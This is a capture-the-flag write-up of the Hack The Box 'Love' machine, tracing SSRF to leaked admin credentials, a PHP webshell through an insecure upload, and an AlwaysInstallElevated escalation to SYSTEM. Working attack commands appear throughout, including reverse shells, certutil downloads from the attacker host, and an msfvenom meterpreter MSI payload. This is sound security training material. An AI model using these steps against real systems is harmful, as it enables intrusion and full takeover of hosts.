








# Love: 10.10.10.239

## Hints

- Enumerate **all** the web apps to get creds to an admin panel
- Getting a foothold is all about an insecure file upload
- Look for usual, known privesc routes that go-to tools will identify

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
```

Looks like a lot is happening on the machine. Some of the interesting things are webservers on ports 80, 443, and 5000 - all reporting Apache and PHP. And some usual Windows services. RPC and SMB didn't give me much, so moving on to web app stuff.

## 80: Recon

The web app on port 80 displays a simple login form.



I tried some default/common creds and didn't get anything. Not sure if I got any username correct, as the generic error message is `Cannot find voter with the ID`. This is not much info for running a password attack using `hydra`. The title of the page is `Voting System using PHP` which is a bit of a hint about the underlying stack. Started running a `gobuster` with the `php` file extension based on this information.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.239 -x php -o gobuster_80_root_medium.log
```

While doing more enumeration, was looking into the `gobuster` results and found a few interesting things such as `/admin` which had another login form, and `/phpmyadmin` and `/webalizer` which were both 403 forbidden. Moving on, as there is not much else to find here.

## 443: Recon

Browsing to the HTTPS site on port 443, we get a cert error. Having a look at the cert reveals the following:

- `love.htb` and `staging.love.htb` hostnames
- `roy@love.htb` username



Added these hostnames to my `/etc/hosts` file. The `love.htb` hostname directs to the web app on port 80, and `staging.love.htb` redirects to a completely new site. Before looking more at that, accepted the cert for the website on port 443 and had a quick look - but we get a 403 forbidden error.



Moving on!

## Staging: Recon

Found an interesting website on `staging.love.htb`.


The web app looks like a "File Scanner", and has a link to a demo version. This took me a little to find, as when viewing the web app in a small window the "hamburger" icon for the menu didn't expand while clicking. I only found the "Demo" link when I made the window winder for a screenshot - but probably (hopefully!) would have noticed it when reviewing the HTML source.



Looks like the demo app can be used to display the contents of a web page. You can put in a URL and see the loaded page. Did a few tests and we can specify something like the URL below, which will load the `index.php` page from the web app running on port 80.

```none
http://localhost:80/index.php
```



I tried a bunch of URLs, mainly results from `gobuster` on the port 80 website that I could not access - including `/phpmyadmin` and `/webalizer`, but kept getting the same 403 errors. Also tried the website on port 443 gives the same 403 error I was getting before. Took me a while to think of trying port 5000, which was running another web app.


Loading the web app on port 5000 revealed a "Password Dashboard", and gave me the following creds.

- Username: `admin`
- Password: `@LoveIsInTheAir!!!!`

## Voting System Admin: Getting a Foothold

There was a bit of a hint here - the "Voting System Administration" title above the credentials. This seemed like the creds were for the admin panel on port 80: `http://10.10.10.239/admin/`, and not the default login index page. The creds worked and we can log in.


Browsed around looking for any sort of interesting user input or file uploads. Found the option to upload a candidate, which included an image upload - but it was broken. You have to select a "Position" from a drop-down box, but no positions were available to be selected! I modified the HTML of the page to add in a dummy value. Finally, I included a file upload named `test.txt` as the photo. I should have used an image to start, but I was in a hurry! 

```none
echo 'Hello World!' > text.txt
```

Anyway, the text file upload worked!



Now we know there are most likely no checks on the file upload. Now to figure out where this file is uploaded. This is pretty easy, as we can right-click the image, and "Copy Image Location". My file named `text.txt` was uploaded to the `images` folder.

```none
http://10.10.10.239/images/test.txt
```

And viewing the file.


If we can upload a non-image (a text file) we can probably upload a PHP file. I started with a simple PHP payload. I did this by intercepting and modifying the first request I made in Burp. Changed the name to `cmd.php` and added a simple PHP payload as a proof of concept.



Success! Like the `test.txt` file, we can navigate to the same folder and execute the file.

```none
http://10.10.10.239/images/cmd.php?cmd=whoami
```

And... we have code execution, running as the user named `phoebe`.



Time to get a reverse shell. There are a bunch of options here, but I went for a PHP reverse shell as it seemed the easiest. I started with trying the "laudanum" reverse shell.

```none
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .
```

And uploaded it to the web app by modifying the same Burp request I had in Repeater. However, I got a `uname` error on the reverse shell listener on my machine.

```none
└─$ nc -lvnp 9001                                   
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55751
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

I guess this script is Linux only - so I went on a hunt to find a PHP reverse shell with support for Windows too. Tried a windows shell that touted support for Linux, macOS and Windows named [`php_reverse_shell.php` by Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php). Copied the code into the same request and ran it. Success!

```none
└─$ nc -lvnp 9001                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55758
SOCKET: Shell has connected! PID: 6964
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

Went back to the same request in Repeater, and change the script to use `powershell.exe` instead of `cmd.exe` and reuploaded. Probably could have just run `powershell.exe` from the command prompt too.

```none
└─$ nc -lvnp 9001                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55760
SOCKET: Shell has connected! PID: 600
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\xampp\htdocs\omrs\images>
```

Since we have access under the `phoebe` user, we can probably already access the user flag. Did a character count on the file as proof. The PowerShell equivalent to `wc -c` is a little lengthy!

```powershell
PS C:\xampp\htdocs\omrs\images> (Get-Content C:\Users\phoebe\Desktop\user.txt | Measure-Object -Character).Characters
32
```

## Privesc: `phoebe` to `system`

Started priesc enumeration by having a look around while running winpeas in the background. Since I don't do many Windows machines, I always forget how to use PowerShell and `cerutil.exe` to transfer files. This article, [(Almost) All The Ways to File Transfer](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65), is a great resource that I keep referring to when I forget! And documenting the command I used to fetch winpeas for future reference.

```none
certutil -urlcache -f "http://10.10.14.2:8000/winPEASx64.exe" "winPEASx64.exe"
```

There were a few things in the winpeas output that were interesting. The one that caught my eye was the `AlwaysInstallElevated` policy - which when enabled will install MSI files with system privliges. Nice! As we can see in the winpeas output, it is enabled.

```none
����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU
```

[HackTricks AlwaysInstallElevaated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated) has a good summary of the configuration:

> If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

Found another article called [Windows Privilege Escalation (AlwaysInstallElevated)](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/) which gave detailed instructions on how to exploit it. There are two options, I picked the reverse shell option.

Started by using `msfvenom` to generate a malicious MSI file to upload to the target. This has my reverse shell configuration.

```none
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.2 lport=9001 -f msi > exploit.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
```

Then configured a meterpreter listener on my machine.

```none
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.2
lhost => 10.10.14.2
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > exploit
```

Switching to the server, I fetched the `exploit.msi` file that I just created.

```none
certutil -urlcache -f "http://10.10.14.2:8000/exploits/exploit.msi" "exploit.msi"
```

And ran the exploit on the target...

```none
msiexec /quiet /qn /i exploit.msi
```

However, it was not executing. After some experience with this problem - guessing it is a PowerShell versus Command Prompt problem. There are two ways to get around this. Get another reverse shell as `phoebe` using `cmd.exe`. Or get PowerShell to run the command in `cmd.exe`. The latter sounded easier. Turns out you can use the `Start-Process` cmdlet to run a program in the Command Prompt.

```powershell
Start-Process cmd.exe -ArgumentList "/C msiexec /quiet /qn /i exploit.msi"
```

After running it, got a connection back on my meterpreter listener.

```none
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.2:9001 
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.2:9001 -> 10.10.10.239:55766) at 2021-08-07 11:02:59 +1200

meterpreter > shell
Process 6604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

Used meterpreter to load a shell, then loaded up PowerShell.

```none
C:\WINDOWS\system32>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> 
```

And got the root flag.

```powershell
PS C:\WINDOWS\system32> (Get-Content C:\Users\Administrator\Desktop\root.txt | Measure-Object -Character).Characters
(Get-Content C:\Users\Administrator\Desktop\root.txt | Measure-Object -Character).Characters
32
```

Done!

## Lessons Learned

- Remember that not all webshells will be cross-platform - and that the PHP reverse shell used in this writeup was pretty stable!
- Sometimes getting a command prompt makes life easier compared to the more "powerful" PowerShell option!

## Useful Resources

- [HackTheBox - Love by ippsec](https://www.youtube.com/watch?v=V_7ubkfnPK4)
- [HTB: Love by 0xdf](https://0xdf.gitlab.io/2021/08/07/htb-love.html)
